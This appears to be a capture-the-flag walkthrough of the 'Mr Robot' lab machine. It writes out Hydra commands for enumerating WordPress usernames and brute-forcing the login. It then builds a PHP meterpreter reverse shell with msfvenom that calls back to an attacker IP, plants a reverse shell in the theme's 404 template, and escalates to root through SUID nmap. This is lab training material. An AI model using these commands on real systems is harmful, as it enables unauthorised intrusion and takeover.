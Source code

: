We begin with an autorecon scan, which quickly identifies ports 80 and 443 as being open. We run the usual follow-up scan with nmap to verify this. 

<center>

![f44abe2189a06cde038722087593642a.png](/Mr%20Robot%20CTF/_resources/f44abe2189a06cde038722087593642a-1.png)

![617b4242634ecdea43934f95e3484621.png](/Mr%20Robot%20CTF/_resources/617b4242634ecdea43934f95e3484621-1.png)

</center>

Let's take a look at the output given by the autorecon scan. Examining the `robots.txt` file reveals some information.

<center>

![cd64d02e2fae9273b64a045a4d22dcec.png](/Mr%20Robot%20CTF/_resources/cd64d02e2fae9273b64a045a4d22dcec-1.png)

</center>

Navigating to `http://10.10.89.74/key-1-of-3.txt` gives us the first key. The `robots.txt` also points us a wordlist at `http://10.10.89.74/fsocity.dic`, which we download.

From the feroxbuster output generated by Autorecon, we see an interesting directory.

<center>

![1e0e3dc41916e231c246961ce4308792.png](/Mr%20Robot%20CTF/_resources/1e0e3dc41916e231c246961ce4308792-1.png)

![bfa45c96aca8dd0b74774d530687f310.png](/Mr%20Robot%20CTF/_resources/bfa45c96aca8dd0b74774d530687f310-1.png)

</center>

Getting the body of the POST request of the login form using BurpSuite, we can try Hydra to brute force the login.

```bash
hydra -l <username guess> -P <path to wordlist> 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:<error message for unsuccessful login>" -V
```

In this case, we want to use the wordlist `fsocity.dic` we found earlier. But first we need a username. Note that if we type in some test credentials, we get an error message which tells us the username is invalid.

<center>

![7fe06c5fd2a9bd063149467517c2f6ee.png](/Mr%20Robot%20CTF/_resources/7fe06c5fd2a9bd063149467517c2f6ee-1.png)

</center>

We can make use of this to try and find a valid username from our dictionary.

```bash
hydra -L fsocity.dic -p test 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -v 
```

<center>

![1b6adf98c66f0597934f8339991c41d4.png](/Mr%20Robot%20CTF/_resources/1b6adf98c66f0597934f8339991c41d4-1.png)

</center>

Thus we obtain the username `Elliot` (which maybe you could have gussed, given the theme of the box). If we attempt to login using this username, this verifies that `Elliot` is indeed a valid username. This also gives us another error message we can use with Hydra.

<center>

![e3699d755773c51a71ebe00815b2501b.png](/Mr%20Robot%20CTF/_resources/e3699d755773c51a71ebe00815b2501b-1.png)

</center>

Now we can attempt to run Hydra. We can either wait a very long time for Hydra to find the correct password, or we can cleanup the wordlist we found first. Using ``sort fsocity.dic | tee sorted.txt`` will list the words alphabetically. Then, ``uniq sorted.txt | tee trimmedlist.txt`` will remove any duplicate instances. Using `wc -l <file name>`, we can verify that this substantially reduced the size of our wordlist.

<center>

![62478eaa7c5fdf79cbfe3f12320b8a65.png](/Mr%20Robot%20CTF/_resources/62478eaa7c5fdf79cbfe3f12320b8a65-1.png)

</center>

Now we run Hydra again with the trimmed wordlist to find our password. 

```bash
hydra -l Elliot -P trimmedlist.txt 10.10.89.74 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered" -v -t 32
```

The `-t` switch specifies the number of tasks to run in parallel. The default is 16; I upped it since the attack was taking a long time. After almost 40 minutes, Hydra found the correct password.

<center>

![8f3edd3b1f9112d5b5302d2cab935b26.png](/Mr%20Robot%20CTF/_resources/8f3edd3b1f9112d5b5302d2cab935b26-1.png)

</center>

Alternatively, [wpscan](https://github.com/wpscanteam/wpscan) can be leveraged here since we know the blog is running on WordPress. We can use `wpscan --url http://10.10.89.74/wp-login.php -U Elliot -P <path to password list>` in an attempt to brute force the login. This was taking too long for me, so I just waited for Hydra to finish.

<br>

# Exploitation

Using the credentials we found, we log in and are presented with Elliot's WordPress dashboard. After looking around, we see that we have access to a theme editor.

<center>

![b012d5df19bf44bae95653fc177520dc.png](/Mr%20Robot%20CTF/_resources/b012d5df19bf44bae95653fc177520dc-1.png)

![adb31d6238f4c3cc826c5740b82fdf54.png](/Mr%20Robot%20CTF/_resources/adb31d6238f4c3cc826c5740b82fdf54-1.png)

</center>

We will edit the 404 Template; our goal is to upload a reverse shell using this editor in order to get command execution of the underlying machine. Set up a netcat lister with `rlwrap nc -lvnp 9999`. (`rlwrap` is used to get a slightly better shell.) At this point, we can generate a php reverse shell payload using msfvenom: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.6.30.43 LPORT=9999 -f raw -o payload.php`. We would then set up our handler with Metasploit with `exploit/multi/handler`
and with payload `php/meterpreter/reverse_tcp`.

Alternatively, we can use [Pentestmonkey's php reverse shell script](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). This is what we'll do. Make the appropriate changes to the script, update the 404 Template file, and navigate to `10.10.89.74/404.php`. We see that this gives a reverse shell, and so we have an initial foothold.

<center>

![9c52f3524f4ec6a5d6cf6c6ee75dea9e.png](/Mr%20Robot%20CTF/_resources/9c52f3524f4ec6a5d6cf6c6ee75dea9e-1.png)

</center>

<br>

# Post-exploitation

Digging around, we eventually find an interesting file. Unfortunately, we don't have access to it.

<center>

![1844ee5fae87970bb5e3a756ee69b538.png](/Mr%20Robot%20CTF/_resources/1844ee5fae87970bb5e3a756ee69b538-1.png)

</center>

We do, however, have access to a hash file. Cracking thehash reveals the password `abcdefghijklmnopqrstuvwxyz`.

<center>

![6cfb407e22dcf91f5146869db5f8796c.png](/Mr%20Robot%20CTF/_resources/6cfb407e22dcf91f5146869db5f8796c-1.png)

</center>

But, if we try to switch to the robot user with `su robot`, we encounter an error.

<center>

![6dbce00075572adfacbb6e05e9a13ec9.png](/Mr%20Robot%20CTF/_resources/6dbce00075572adfacbb6e05e9a13ec9-1.png)

</center>

So, let's upgrade our shell using `python -c 'import pty; pty.spawn("/bin/bash")'
`. Doing this allows us to switch users using the password we found above. We can then `cat` the second key.

<center>

![9048b29fef3190be8463b1662fadc3da.png](/Mr%20Robot%20CTF/_resources/9048b29fef3190be8463b1662fadc3da-1.png)

</center>

Now let's try and root the machine. We can esscalating privileges by looking for SUID files with `find / -perm -u=s -type f 2>/dev/null
`, we find a few.

<center>

![3ef1260af740e2b526300c3198f7ec23.png](/Mr%20Robot%20CTF/_resources/3ef1260af740e2b526300c3198f7ec23-1.png)

</center>

Nmap sticks out, so we check [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) and we see if nmap has the SUID bit set, we can use it to get a root shell. We run nmap in interactive mode with ``nmap --interactive`` and we spawn a root shell with ``!sh``.

<center>

![ec010bd95a1b1fc80a0a664f575cafaa.png](/Mr%20Robot%20CTF/_resources/ec010bd95a1b1fc80a0a664f575cafaa-1.png)

</center>

Navigating to `/root`, we find the final flag.

<center>

![a419f7d063b1538bfc082a6ceea43a98.png](/Mr%20Robot%20CTF/_resources/a419f7d063b1538bfc082a6ceea43a98-1.png)

</center>